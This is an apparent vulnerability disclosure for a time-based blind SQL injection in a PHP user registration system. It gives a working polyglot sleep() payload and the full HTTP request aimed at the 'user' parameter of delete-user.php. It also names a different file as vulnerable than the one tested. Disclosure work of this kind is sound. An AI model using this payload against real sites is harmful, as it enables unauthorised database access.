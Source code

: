 ## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```

1. sleep(10)
![Alt text](image-2.png)

2. sleep(15)
![Alt text](image-3.png)

Causes of vulnerabilities：

Insufficient parameter filtering for the user led to time-based blind injection.